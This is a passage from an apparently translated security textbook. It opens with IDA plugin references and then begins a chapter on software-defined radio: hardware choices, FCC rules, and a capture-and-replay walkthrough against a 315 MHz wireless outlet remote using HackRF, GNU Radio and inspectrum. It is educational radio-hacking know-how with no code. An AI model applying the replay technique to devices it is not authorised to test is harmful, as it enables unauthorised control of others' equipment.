- IDA Sync 插件 www.openrce.org/downloads/details/2
- IDA Toolbag 插件 thunkers.net/~deft/code/toolbag/
- IDA2Sql 插件 wiki.github.com/zyanmics/ida2sql-plugin-ida
- IDAScope 插件 bitbucket.org/daniel_plohmann/simplifire.idascope/
- Optimice IDA 插件 code.google.com/p/optimice/
- PatchDiff2 IDA 插件 code.google.com/p/patchdiff2/

## 参考文献

- 1. ClassInformer IDA 插件，SourceForge，https://sourceforge.net/projects/classinformer/。
- 2. Angel M. Villegas，“安装插件”，FIRST IDA Pro 集成，FIRST IDA Python 插件，2016，http://first-plugin-ida.readthedocs.io/en/latest/installing.html。
- 3. Volatility，高级内存取证框架，GitHub，www.volatilityfoundation.org/。
- 4. YARA，模式匹配瑞士军刀，GitHub，https://github.com/virustotal/yara。
- 5. Axel Souchet（又名 0vercl0k）和 Duncan Ogilvie（又名 mrexodia），Labeless IDA 插件，GitHub，https://github.com/a1ext/labeless。
- 6. Labeless IDA 插件发行版，GitHub，https://github.com/a1ext/labeless/releases/。

## 第 5 章

## 软件定义无线电

无线设备遍布我们生活的方方面面。虽然这些通过消除电线而为我们提供更大自由的设备，但它们也打开了近距离和远程攻击面。例如，有线且未公开暴露的传感器远比覆盖范围超过建筑物周边的无线传感器更难访问。当然，仅仅能够访问无线信号并不能保证能够实施恶意活动，但这确实敞开了大门。

无线射频（RF）黑客技术是一个过于复杂的主题，无法在一个章节中充分覆盖。我们的目标是使用一个简单的设备，向你介绍经济型软件定义无线电（SDR）、用于 SDR 的开源软件，以及评估和测试使用自定义或半自定义无线协议进行通信的产品的流程。

在本章中，我们将讨论以下主题：

- SDR 入门
- 分析简单 RF 设备的逐步流程（SCRAPE）

### SDR 入门

SDR 是一种使用可修改的软件组件来处理原始数据的无线电，而不是完全依赖于专用 RF 硬件和数字信号处理器。SDR 使用通用处理器（例如运行 Linux 的计算机）的资源来提供信号处理，同时使用通用 RF 硬件来捕获和传输数据。SDR 的优势包括能够在单个（可能可远程更新）固件包中处理各种信号和频率。此外，SDR 在构建新系统原型时为开发人员/研究人员提供了灵活性。

### 购买建议

现在你对 SDR 是什么有了概念，是时候寻找你的新玩具了。SDR 的示例包括 HackRF、bladeRF 和 USRP。这些设备均使用计算机上的 USB 端口，并可与 GNU Radio 等开源软件一起使用。表 5-1 对这三种设备进行了快速比较。

| | HackRF | bladeRF x115 | USRP B200 |
|---|---|---|---|
| 工作频率 | 1 MHz 到 6 GHz | 300 MHz 到 3.8 GHz | 70 MHz 到 6 GHz |
| 带宽 | 20 MHz（6 GHz） | 28 MHz（124 MHz） | 56 MHz |
| 双工 | 半双工 | 全双工 | 全双工 |
| 总线 | USB 2 | USB 3 | USB 3 |
| ADC 分辨率 | 8 bit | 12 bit | 12 bit |
| 每秒采样数 | 20 MSps（每秒百万次采样） | 40 MSps | 61 MSps（122 MSps） |
| 近似成本 | $300 | $650 | $745 |

表 5-1 经济型 SDR 设备比较

工作频率决定无线电可以调谐到哪些频率。例如，蓝牙在 2.4 GHz 到 2.48 GHz 之间运行，具体取决于版本，使用 40 到 80 个信道。FM 调频收音机在 87.8 MHz 到 108 MHz 之间运行，使用 101 个信道。虽然 bladeRF 的工作频率比其他两个设备显著低，但附加板可以有效地将低频降至 60 KHz。（我不知道有任何附加板可以提高 bladeRF 的上限。）HackRF 和 USRP B200 也有可用的附加板，可以有效地降低其低频限制。

带宽是应用程序/设备可以扫描的 RF 频谱量。列出的带宽在各自网站上发布，但可能取决于加载的固件而有所不同。例如，HackRF 固件版本 2017.02.01 现在支持扫频模式，允许设备在完整的 6 GHz 范围内扫频。bladeRF 添加了支持以将其带宽扩展到 124 MHz。增加带宽的一个潜在好处是能够同时监控所有蓝牙信道（80 MHz）。

双工是指两个系统如何相互通信。全双工意味着设备可以同时发送和接收。半双工，你无疑已经猜到了，意味着设备可以发送和接收数据，但不能同时进行。半双工通信的示例包括对讲机和许多计算机 IP 语音应用程序。当双方同时尝试说话时，会发生冲突并且数据会丢失。虽然全双工更灵活，但 SDR 的双工方式不太可能妨碍分析的有效性。

模数转换（ADC）分辨率是指每个采样可以采取的不同电压值的数量。例如，电压范围为 4V 的 8 位 ADC 具有 15.6 mV 或 0.39% 的分辨率。结合采样率，更多的 ADC 分辨率位数会产生对模拟信号更准确的数字表示。

公布的每秒采样数取决于 USB 吞吐量、CPU 和


ADC 转换器，以及每个样本的大小。例如，USRP B200 的 61 MSps 值基于使用 16 位正交采样；然而，系统可以配置为使用 8 位正交采样，这实际上使每秒样本吞吐量翻了一番。较低的支持 HackRF 每秒样本值既是所选 ADC 的结果，也是 USB 吞吐量的结果。

除了购买 SDR 之外，您可能还需要购买多种电缆、假负载、衰减器以及频率范围不同的天线。在实验室中测试设备时，定向天线非常有用，有助于隔离信号源。最后，虽然非必需，但一个简单的隔离室（或盒子）在处理常见频率（如 2.4 GHz）时非常有用。表 5-1 中列出的每个 SDR 板上都有一个 SMA（小型版本 A）母连接器，用于连接电缆、衰减器和天线。

## 不那么快：了解规则

当您考虑我们周围有多少无线设备——收音机、电话、卫星、Wi-Fi 等等——时，理所当然地会有一个管理机构控制空中频谱。此类管理机构有两个：联邦通信委员会 (FCC) 和国际电信联盟 (ITU)。在美国，FCC 管制 RF 频谱，您必须获得许可才能使用未获许可的设备（例如 SDR）在大部分 RF 频谱上发射。要获得操作无线电的执照，您必须参加考试，以证明您对规则和法规的了解。访问 www.arrl.org 了解有关执照以及合法操作无线电的规则的更多信息。

## 通过示例学习

既然您已经了解了 SDR，我们将介绍评估新设备的过程，以便您学习如何使用 SDR 及其相关软件。在本章余下部分，我们将使用带有 HackRF SDR 和 gnuradio 工具的 Ubuntu 系统来评估一个室内无线电源插座设备。选择此设备并无特别之处，只是因为它目前在我的库存中，并且足够简单，可以在单个章节中介绍。选择 HackRF 是因为其功能、价格和易访问性的结合。本章中使用的软件应该适用于任何负担得起的 SDR 平台。

本章将遵循的一般流程称为 SCRAPE，代表搜索、捕获、重放、分析、预览和执行。


注意 由于必须购买设备，且购买时无法保证插座/遥控器的版本，本节不包含实验。如果您拥有硬件或想模拟工作，GNU Radio 流图、安装说明、捕获文件和源代码可以在本书的下载站点上找到。

## 搜索

在 SCRAPE 流程的搜索阶段，我们的目标是在不使用任何专业设备的情况下，尽可能多地了解无线电的特性。

您已经知道 FCC 管制无线电频谱，但您可能不知道，大多数发射设备必须经过 FCC 认证，以确保它们在既定规则内运行。当产品或模块获得认证时，会颁发一个 FCC ID，并且必须在产品或模块上可见。这个 FCC ID 将是我们研究 RF 特性的搜索关键字。

我们将要查看的设备是 Prime 室内无线电源插座遥控器（见图 5-1）。跟随本章内容并不要求您购买此设备。遥控器的 FCC ID 是 QJX-TXTNRC。可以在产品外壳上的标签上找到该 ID。FCC 设备授权搜索无法找到此设备的报告，除非将产品代码用作“-TXTNRC”。为绕过此类问题，我直接使用 Google 进行搜索，如下所示：



图 5-1 遥控器照片

www.google.com/search?q=fcc+QJX-TXTNRC

网站 fccid.io 通常出现在搜索结果的前列。在我们的情况中，顶部链接是 https://fccid.io/QJX-TXTNRC。

在 fccid.io 上，我们找到几个链接的文档和报告，它们告诉我们该设备的工作频率范围是 315.0 MHz 到 315.0 MHz（或简写为 315.0 MHz）。这些报告包含工作频率、指示传输类型的示例波形、指示数据包长度的时间测量值以及各种脉冲宽度。我们将使用工作频率范围作为起点，并在完成测试后将测试报告的其余部分留作合理性检查。

## 捕获

掌握工作频率后，我们有足够的信息开始使用 SDR 和待测设备 (DUT) 进行实验。此时，我们需要安装 SDR（HackRF）和软件（gnuradio 和 HackRF 工具），以及一个能够接收 315 MHz 的天线（ANT500 75 MHz 至 1 GHz）。虽然我们不会直接介绍安装过程，但我确实建议使用 PyBOMBS，并使用 PyBOMBS 的 prefix 参数将工具安装到您的主目录。通过将其安装到主目录，您将能够尝试多种配置，并更轻松地从任何未来的更新问题中恢复。在本书的下载站点上，您可以找到一个 README.txt 文件，其中包含安装工具的说明、本章中引用的用于 GNU Radio Companion 的流图，以及用于分析的捕获文件（以防您没有引用的设备）。

GNU Radio Companion（通过运行 gnuradio_companion 启动）是一个 GUI 工具，允许用户通过将一个或多个信号处理块链接在一起来创建软件无线电。该工具在幕后生成 Python 代码，并允许用户在 GUI 中定义变量并使用 Python 语句。要捕获信号以供将来分析，请参阅图 5-2 中所示的流图。我鼓励您浏览块面板树并熟悉可用的块。但是，暂时请参阅表 5-2，了解流图中使用的块的描述。为了尽量减少所需的传输量，使用文件沉块来写入用于重放和离线分析的数据。



图 5-2 捕获流图：remote_analysis.grc

| 名称 | 用途 | 关注的参数 |
| :--- | :--- | :--- |
| Options | 提供整体流图选项 | ID: 生成的 Python 代码的名称。Generate Options: 要使用的 GUI 框架（默认为 QT）。您只能使用与此决定对应的块（QT 或 Wx）。 |
| osmocom Source | 提供与硬件交互的接收器 | Sample Rate: 每秒样本数。Ch0: Frequency: 要调谐的载频（使用 316 MHz 以考虑 DC 偏移）。Ch0: RF Gain: 通常，除非您有特定理由，否则这应为零。 |
| File Sink | 指定样本将写入文件 | File: 捕获样本的文件名。 |
| QT GUI Frequency Sink | 以频率和幅度绘制接收到的信号 | Center Frequency: 图表中央的频率（应设置为 Ch0 Frequency）。Bandwidth: 设置为 Sample Rate。 |
| Variable | 提供用于常见值（如 Sample Rate）的变量 | 该值可以是任何合法的 Python 语句。示例为 int(400/27)。 |

表 5-2 捕获所需的 GNU Radio 块描述


注意 必须记下采样率和信道频率，因为使用离线工具和重放攻击时将需要它们。

在捕获阶段，我尝试为每个已知刺激捕获一个文件。对于我们的 DUT，已知刺激是对每个插座推动开/关按钮。此外，为了帮助理解设备的协议，使用两个遥控器进行比较。此时，基于我们从测试报告中得到的理解，我们应该看到在 315 MHz 或附近出现一个尖峰，如图 5-3 所示。您还会注意到在 316 MHz 处出现一个尖峰；这是测试设备的产物（DC 偏移），对我们的测试无关紧要。DC 偏移出现在中心频率处，正是我们将接收器调谐到 316 MHz 以将其移开的原因。此时，我们已捕获足够的数据，可以进入下一阶段：重放。




图 5-3 捕获的信号

## 重放

既然我们已经捕获了信号，现在是时候尝试重放数据了。虽然无法成功重放数据并不一定意味着我们没有正确捕获数据，但能够成功重放数据确实表明存在潜在的通信缺陷。对于涉及安全的系统，应部署抗重放措施以防止未经授权的访问。此类设备的一般用例只是简单地打开或关闭灯、风扇或其他简单设备。因此，我怀疑重放攻击很可能未得到缓解。重放攻击的主要目标是在对实际协议了解甚少的情况下，成功操控设备。

重放阶段的流图将与捕获阶段类似，不同之处在于我们现在使用文件作为源，并将 osmocom 作为沉降块。我们必须重用相同的采样率和频率，以便信号能够按照接收时的方式重新还原。此外，如图 5-4 所示，已向图中添加了 Multiply Const、QT GUI Time Sink 和 Throttle 模块，以便进行可能需要的调整。如果没有外部沉降块来有效限制数据速率，则添加 Throttle 以降低 CPU 利用率。基本上，如果禁用了 osmocom 沉降块且缺少 Throttle，则从文件读取的数据不受速率限制，CPU 利用率可能会很高。



图 5-4 重放流图：remote_analysis_replay.grc


注意 请务必使用终止 (F7) 功能来关闭正在运行的流图，以便让 SDR 能够正确清理。我发现，偶尔即使使用了终止功能，发射器也可能不会停止发射，因此请务必小心，在操作完成后不要继续发射。不幸的是，如果没有第二个 SDR 来监控发射，就很难判断是否存在持续发射。可以重置设备以确保发射已停止。

当初以乘数常数 1 运行流图时，电源插座并未打开。从图 5-5 的频率图来看，我们至少在正确频率上进行发射，因此一定还有其他因素阻碍了进展。由于我们正处于重放阶段，此时并未试图完全逆向工程该协议，因此还有几个参数可以调整。时间图以时域显示信号，X 轴为时间，Y 轴为振幅。图 5-5 中发射信号的振幅范围为 –0.2 到 0.2，这可能不足以驱动插座的接收器。在这种情况下，我们只需将乘数常数更改为 4 并再次重放即可（已在图 5-4 的流图中体现）。



图 5-5 时域和频率图

## 分析

到目前为止，我们已证明可以捕获和重放信号，但我们仍不清楚正在传输什么内容。在此阶段，我们将尝试了解设备如何区分不同的按键操作，以及它是否足够智能以排除其他遥控器。要完成这两项任务，我们必须了解数据是如何编码的。虽然可以使用 gnuradio_companion 进行分析，但我们将使用另一个工具，它能让这项工作变得更容易一些：inspectrum。

Inspectrum (https://github.com/miek/inspectrum) 是一款离线无线电信号分析器，用于分析捕获的无线电信号。撰写本文时，Ubuntu apt 安装的 inspectrum 版本滞后于最新版本，且不包含某些非常有用的功能。我建议从 Github 构建它。要从源代码构建 inspectrum，还需要安装 liquid-dsp。在 Ubuntu 基础安装中，可以使用图书下载站点 Analyze 目录中的 README.txt 文件里的命令来安装 inspectrum。

要在站点之间传输数据，需将待传输数据调制到载波信号上。载波信号（或频率）双方皆知，并“承载”数据。开-关键控是一种简单的幅度调制方法，通过载波频率的存在或不存在来传递信息（参见图 5-6）。简单的开-关键控形式可能只有一种脉冲持续时间，其中脉冲存在表示 1，该持续时间内无脉冲表示 0。稍微复杂一些的形式可以使用长脉冲表示 1，短脉冲表示 0。从某个振幅过渡到无振幅所需的最短时间称为符号周期。



图 5-6 说明开-关键控的时间图

安装 inspectrum 后，只需运行它并在 GUI 中对我们的样本进行必要的调整即可。如果你没有该设备，可以使用图书下载站点 Capture 目录中包含的捕获文件来跟随操作。在图 5-7 中，你会注意到我们打开了用于打开插座 1 的捕获文件（remote1-1on-4m-316mhz），并将采样率设置为 4000000（即我们捕获信号的速率）。水平轴为时间，垂直轴为频率。信息的颜色可视为强度，可通过移动 Power Max 和 Min 滑块进行调整。调整 Power Max 和 Min 滑块，以便在此示例中看到更清晰的边缘。垂直刻度上的 –1 MHz 指的是 316 MHz 到 1 MHz（即 315 MHz）。此外，如果从此处沿图表水平方向观察，你将看到大小不等的一系列短划线，它们之间有空格。我们工作频率上的短划线看起来像摩尔斯电码，表明是一种开-关键控形式。



图 5-7 Inspectrum 图

要解码数据，我们需要计算符号周期并转换单个数据包中的符号。幸运的是，inspectrum 提供了多种工具来测量信号和捕获符号数据。光标功能提供了一种方法，可在图形上将图表划分为指定长度的符号。此外，隐藏在中鼠键上的功能可以添加幅度图并提取符号。在图 5-8 中，你可以看到在符号周期为 272µs 时添加了光标，并且有八个周期叠加在信号上。要确定符号周期，请将光标的前边缘对齐至最小符号的起始位置，并缩放光标以对齐至同一符号的结束位置。然后只需将该区域移动到所有符号的起始位置并增加符号数量即可。原始符号周期不够精确，但应该大致正确。主要思路是确保所有符号的边缘与一个周期的边缘对齐。即使是这样简单的图表，也传达了几个重要信息：



图 5-8 测量符号

- 最短持续时间的脉冲为 272µs。
- 最长持续时间的脉冲是最短持续时间脉冲的三倍。
- 在一个脉冲开始到下一个脉冲开始之间，会出现四个 272µs 的符号周期。

